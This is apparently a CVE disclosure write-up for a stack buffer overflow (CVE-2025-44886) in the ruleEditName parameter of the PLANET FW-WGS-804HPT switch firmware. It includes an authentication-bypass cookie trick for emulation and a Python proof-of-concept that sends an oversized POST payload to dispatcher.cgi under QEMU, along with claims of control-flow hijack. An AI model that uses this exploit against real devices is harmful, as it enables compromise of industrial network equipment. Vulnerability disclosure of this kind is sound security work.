 ```yaml
---
title: web_acl_mgmt_Rules_Edit_post_ruleEditName
date: 2025-04-20 17:11:41
tags: cve
---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44886





# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2





# web_acl_mgmt_Rules_Edit_post_ruleEditName

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_acl_mgmt_Rules_Edit_postcontains a stack overflow vulnerability.

The stack overflow can be triggered byruleEditName key value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-17451483193002.png)

n the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250417160458235](../res/image-20250417160458235-174487709953324.png)





![image-20250417160535663](../../../work/Planet/Planet/笔记2.assets/image-20250417160535663-174487713684025.png)



Through IDA, it can be seen that the stack space is 0xa0

﻿The content of the **poc**.py file is as follows:

```json
import os


a =0x2307
var_name = "ruleEditName"
b = 'a' * 0x600


poc_content = f"&cmd={a}&{var_name}={b}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)



```



![image-20250417160614053](../res/image-20250417160614053-174487717508626.png)

![image-20250417160701648](../res/image-20250417160701648-174487722255427.png)



Through the above image, we can see that we have overflowed to 0x558 and successfully hijacked the control flow. If necessary, more can be overflowed.
